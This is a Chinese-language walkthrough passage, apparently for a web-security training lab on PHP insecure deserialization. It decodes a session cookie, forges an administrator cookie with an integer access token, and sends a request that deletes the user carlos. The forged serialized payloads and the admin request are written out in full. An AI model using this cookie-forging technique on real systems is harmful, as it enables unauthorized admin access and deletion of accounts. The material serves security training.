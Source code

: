 您可以使用以下凭证登录自己的账户：`wiener:peter`



在浏览器上登录账户后使用 BurpSuite 抓包查看 Cookie。

```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJiMjV0djVzMGpnZmRibGI1ZXNpdXN4aHpjbXpwMDMyOSI7fQ%3d%3d
```

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"b25tv5s0jgfdblb5esiusxhzcmzp0329";}
```



构造恶意的 Cookie，将 username 替换为 administrator，将 access_token 替换为整形 0，记得修改长度。

```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9
```

```
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```



访问网站的 /admin 路径，并将 Cookie 设置为篡改后的。

![image-20250317155316338](./images/%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96.assets/image-20250317155316338.png)



使用 BurpSuite 发送以下内容的 HTTP 请求即可删除 carlos 用户。

```
GET /admin/delete?username=carlos HTTP/2
Host: 0afd00f5037097f18078c10b00cb0007.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9
```



## 使用应用程序功能
